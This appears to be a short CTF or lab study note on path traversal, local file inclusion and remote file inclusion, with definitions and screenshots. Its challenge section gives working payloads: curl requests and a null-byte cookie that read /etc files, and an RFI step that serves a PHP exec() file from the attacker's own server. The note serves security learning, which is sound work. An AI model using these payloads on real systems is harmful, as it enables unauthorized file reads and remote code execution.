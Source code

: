 - **Essential parts of the url**
- **Path/Directort Transversal** -> vulnerability that allows an attacker to read operating system resources. The attacker manipulates the url to locate and access files or directories stored outside the root directory.
- **PHP information** -> https://www.php.net
- **Path transversal attacks** -> known as dot-dot-slash attack, take advantage of moving the directory one step up using the double dots ../
- **Local File Inclusion (LFI)**
- **NULL Byte** -> %00
- **Remote File Inclusion (RFI)** -> technique to include remote files into a vulnerable application. It has one requirement: `allow_url_fopen` must be on.

![](./img/file1.png)
![](./img/file2.png)
![](./img/file3.png)
![](./img/file4.png)
![](./img/file5.png)
![](./img/file6.png)
![](./img/file7.png)
![](./img/file8.png)
![](./img/file9.png)
![](./img/file10.png)
![](./img/file11.png)
![](./img/file12.png)
![](./img/file13.png)
![](./img/file14.png)
![](./img/file15.png)
![](./img/file16.png)
![](./img/file17.png)
![](./img/file18.png)

CHALLENGES
- To get the first flag, we can put this in terminal: `curl -X POST https://MACHINEIP/challenges/chall1.php -d 'method=GET&file=/etc/flag1'`
- To get the second flag, we open burpsuite and put on cookie `../../../../etc/flag2%00`
- To get the third flag, we put this in terminal: `curl -X POST https://MACHINEIP/challenges/chall3.php -d 'method=POST&file=../../../../etc/flag3%00'`
- To get the hostname (Remote File Inclusion), whe set up our remote server writing `sudo python3 -m http.server` and then we create a file txt with the content: `<?php print exec('hostname'); ?>` and we intruduce on the url `http://MACHINEIP/playground.php?file=http://myIP:PORT/file.txt` and the hostname is shown.